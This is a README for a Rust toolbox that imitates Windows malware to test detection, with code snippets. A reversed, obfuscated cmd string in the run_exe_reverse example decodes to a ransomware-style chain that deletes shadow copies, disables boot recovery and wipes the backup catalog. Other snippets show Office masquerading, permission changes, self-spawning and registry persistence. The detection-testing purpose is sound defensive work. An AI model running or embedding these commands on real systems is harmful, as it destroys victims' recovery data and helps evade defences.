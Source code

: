 # RustMyDetection
Mimic a Windows malware in Rust

## Purpose:

To simulate the behaviour of a malware to test the detection and reaction of the operators.  
It is more a toolbox than a complete product

I am not working on a tool for:
  - pentester 
  - redteam

The icons and executable informations are taken from a version of Office 2016.

## Why Rust:

Because I want to learn it and it's fun to try new things

The code is dirty I know and it will get better as I get better

## Todo List:

- [X] Change executable internal name (build.rs)
- [X] Run a external command (run_exe)
- [X] Encode command to bypass string check very basic (run_exe_reverse)
- [X] Self-replicated (spawn)
- [ ] Download another payload
- [ ] Registry SetValue
- [ ] Drop file

## Example

### Set internal name

change value of exe_metadata to :
- Mimic::Word
- Mimic::Excel
- Mimic::Powerpoint
- Mimic::Rustmydetection

### run_exe / run_exe_reverse
```rust
    // https://app.any.run/tasks/d71d86cb-0c13-4086-85ce-d140e826fbea/

    tools::run_exe ("attrib", "+h .");
    tools::run_exe ("icacls",". /grant Everyone:F /T /C /Q");

    let mycmd = "teiuq- golatac eteled nimdabw & on delbaneyrevocer }tluafed{ tes/ tidedcb & seruliafllaerongi ycilopsutatstoob }tluafed{ tes/ tidedcb & eteled ypocwodahs cimw & teiuq/ lla/ swodahs eteled nimdassv  C/".to_string();
    tools::run_exe_reverse("cmd", &mycmd);
```
### spawn
```rust
    //get current exe
    let my_name = std::env::current_exe()
        .expect("Can't get the exec path")
        .file_name()
        .expect("Can't get the exec name").
        to_string_lossy().
        into_owned();

    match my_name.as_ref(){
        "rustmydetection.exe" => {tools::spawn(r"setup.exe");},
        "setup.exe" => {tools::spawn(r"C:\Program File\Microsoft Office\Office16\WinWord.exe");},
        _ => {}
    }
```

### Registry
Need to find how use generic type in fn

```rust
    tools::set_reg_str(HKEY_CURRENT_USER,
        "Software\\rustmydetection",
        "exe",
        "\"c:\\git\\rustmydetection.exe\"");
    
    tools::set_reg_u32(HKEY_CURRENT_USER,
        "Software\\rustmydetection",
        "start",
        1u32);
```    